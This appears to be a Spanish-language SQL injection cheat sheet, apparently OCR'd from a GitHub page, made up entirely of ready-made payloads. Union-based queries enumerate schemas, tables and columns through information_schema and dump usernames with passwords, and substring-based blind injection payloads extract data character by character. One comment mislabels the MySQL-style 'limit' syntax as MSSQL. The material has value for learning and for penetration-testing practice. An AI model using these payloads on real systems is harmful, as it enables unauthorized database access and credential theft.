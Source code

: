 Para saber las bases de datos (DB) existentes.
```bash 
❯ ' union select schema_name from information_schema.schemata-- -                    # Nos muestra todas las bases de datos existentes  
❯ ' union select schema_name from information_schema.schemata limit 0,1-- -          # Nos muestra todas las bases de datos existentes, pero limita a 1 resultado, el que varia es el 0 a 1,2,3, etc...
❯ ' union select group_concat(schema_name) from information_schema.schemata-- -      # Nos muestra todas las bases de datos existentes, pero separadas por comas

❯ ' and substr((Consulta)Inicio,longitud))=''                                                   # Forma de usar el substr
	# Longitud = Los caracteres que vamos a extraer
	# Inicio = Es la posicion inicial del caracter a comparar 
	# Consulta = Es la peticion que vamos a hacer

❯ ' and substring((select schema_name from information_schema.schemata limit 0,1),1,1)='A'      # Bases MSSQL
	# Donde 0 indica la primer base de datos y es el valor que ira variando, esto dependiendo de las bases de datos que existan
	# El segundo '1' es la posicion de la letra en cada palabra y este valor ira variando para ir avanzando a las sig. posiciones de la palabra
	# 'A' es la letra a la que queremos igualar la consulta 
```

Para saber las tablas de la base de datos (DB) especifica.
```bash
❯ ' union select table_name from information_schema.tables where table_schema='❮DB_Name❯'-- -                    # Nos muestra las tablas existentes
❯ ' union select group_concat(table_name) from information_schema.tables where table_schema='❮DB_Name❯'-- -      # Nos muestra las tablas existentes, pero separadas por comas
❯ ' union select table_name from information_schema.tables limit 0,1-- -                                         # Nos muestra las tablas existentes, pero limita a 1 resultado, el que varia es el 0 a 1,2,3, etc...
```

Para saber las columnas de la tabla que encontramos y la base de datos  (DB) especifica.
```bash 
❯ ' union select column_name from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯'-- -                    # Nos muestra las tablas existentes
❯ ' union select column_name from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯' limit 0,1-- -          # Nos muestra las tablas existentes, pero limita a 1 resultado, el que varia es el 0 a 1,2,3, etc...
❯ ' union select group_concat(column_name) from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯'-- -      # Nos muestra las tablas existentes, pero separadas por comas
```

Para que nos muestre los datos de las columnas.
```bash
❯ ' union select group_concat(username) from ❮DB_Name❯.❮Table_Name❯-- -          # Especificamos la DB y la tabla, si la DB no es la que esta en uso y nos muestra los datos
❯ ' union select group_concat(username) from ❮Table_Name❯-- -                    # Para que nos muestre los datos, aqui asumimos que la base de datos es la que esta en uso 
❯ ' union select group_concat(username,':',password) from ❮Table_Name❯-- -       # Para que nos muestre los datos de los usuarios y su passwd separados por : 
❯ ' union select username||':'||password from ❮Table_Name❯-- -                   # Para que nos muestre los datos de los usuarios y su passwd separados por : 
❯ ' union select group_concat(username,0x3a,password) from ❮Table_Name❯-- -      # Para que nos muestre los datos de los usuarios y su passwd separados por :

	 # Debemos de colocar los caracteres en Hexadecimal para evitar fallos
	 # : = 0x3a (Hex) 
```
